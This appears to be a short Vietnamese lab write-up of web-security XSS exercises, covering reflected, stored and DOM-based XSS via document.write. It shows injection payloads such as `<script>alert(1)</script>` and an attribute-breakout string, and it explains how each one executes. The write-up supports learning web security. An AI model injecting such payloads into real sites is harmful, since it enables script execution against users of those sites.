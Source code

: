 # Lab 1: Reflected XSS into HTML context with nothing encoded
![image](https://hackmd.io/_uploads/By9bZC9BT.png)

Đơn giản là chèn script vào ô tìm kiếm
```js
<script>alert("hi")</script>
```
![image](https://hackmd.io/_uploads/HyL_bRqST.png)

# Lab 2: Stored XSS into HTML context with nothing encoded
![image](https://hackmd.io/_uploads/Hy_emR5S6.png)

Vẫn là script như trên nhưng lỗi XSS gặp ở phần comment
![image](https://hackmd.io/_uploads/ByrPmRcHT.png)

# Lab 3: DOM XSS in document.write sink using source location.search
![image](https://hackmd.io/_uploads/Syqr_X2Ba.png)

Ở source code thì ta có script, script này  thực hiện tìm kiếm thông qua hàm `trackSearch` để ghi nội dung vào DOM
![image](https://hackmd.io/_uploads/rJxgbnAB6.png)

Lúc này script trở thành
```js
document.write('<img src="/resources/images/tracker.gif?searchTerms=1">')
```
![image](https://hackmd.io/_uploads/ryRwW3Ar6.png)

Ta sẽ payload `query` như sau
```
"><script>alert(1)</script>"
```
Script trở thành
```js
document.write('<img src="/resources/images/tracker.gif?searchTerms="><script>alert(1)</script>"">')
```
![image](https://hackmd.io/_uploads/ByzWX3RSa.png)

# Lab 4: DOM XSS in document.write sink using source location.search inside a select element
![image](https://hackmd.io/_uploads/HkXZBnCrp.png)
